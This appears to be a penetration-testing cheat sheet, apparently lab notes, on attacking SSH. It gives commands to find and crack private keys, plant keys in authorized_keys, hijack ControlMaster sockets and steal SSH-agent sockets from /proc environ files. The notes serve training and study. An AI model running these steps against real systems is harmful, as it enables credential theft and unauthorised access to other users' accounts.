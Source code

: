 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: SSH
---
```


<span style="font-size: 35px; color:red"><b>SSH</b></span>

Look for unprotected SSH Keys:
```shell
find /home/ -name "id_rsa"
```

Once find, <span style="color:red">cat id_rsa</span> to see if it's encrypted. The "DEK-Info" declare the type of encryption used.
If encrypted, use <span style="color:red">SSH2JOHN</span> to transform it into hash and crack it with john/hashcat:
```shell
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ./id_rsa.hash
```
If cracked, add your id_rsa to the authoryzed_keys after you get the SSH shell.


Also, check the <span style="color:red">~/.bash_history_ file</span> or the <span style="color:red">~/.ssh/known_hosts</span> to see who connected recently (might be hashed, if so, nothing to do here).

---
<span style="font-size: 30px; color:white"><b>SSH Hijacking</b></span>

<span style="font-size: 25px; color:white"><b>With ControlMaster</b></span>
Use an existing ssh session using ControlMaster (functionality that allows a user to open multiple sessions).
Check ` ~/.ssh/controlmaster/` to see if there's any socket in the form of `user@domain:22`
If so, you can use it like:
```shell
ssh -S /home/user/.ssh/controlmaster/user\@domain\:22 user@domain
```
no password required!

---
<span style="font-size: 25px; color:white"><b>With SSH-Agent</b></span>

SSH-Agent is a utility that keeps track of a user's private keys and allows them to be used without having to repeat their passphrases on every connection.
<span style="color:red">Client --> Intermediate Host --> Final Host</span>

Both Intermediate and Final Host need to have the same public key (<span style="color:red">ssh-copy-id -i ~/.ssh/id_rsa.pub user@domain</span> for both domains). 
- <span style="color:red">ForwardAgent yes</span> on <span style="color:red">~/.ssh/config</span>.
- <span style="color:red">AllowAgentForwarding yes</span> on <span style="color:red">/etc/ssh/sshd_config</span>.
- Start SSH_Agent: _eval <span style="color:red">ssh-agent</span>
- Add key to SSH-Agent: <span style="color:red">ssh-add</span>
Done, you can now connect to Intermediate Host and then from there to Final Host.

### Exploitation
If there's a connection to the <span style="color:red">Intermediate Host</span>, then it's exploitable (check with <span style="color:red">ps aux | grep ssh</span>).
To get ID (PID) value for the SSH processes: <span style="color:red">pstree -p offsec | grep ssh</span>. (just chose one of them).
Cat the process out to find the <span style="color:red">SSH_AUTH_SOCK</span> variable: 
```shell
cat /proc/<PID>/environ
```
Then <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l</span> and <span style="color:red">SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh offsec@linuxvictim</span>

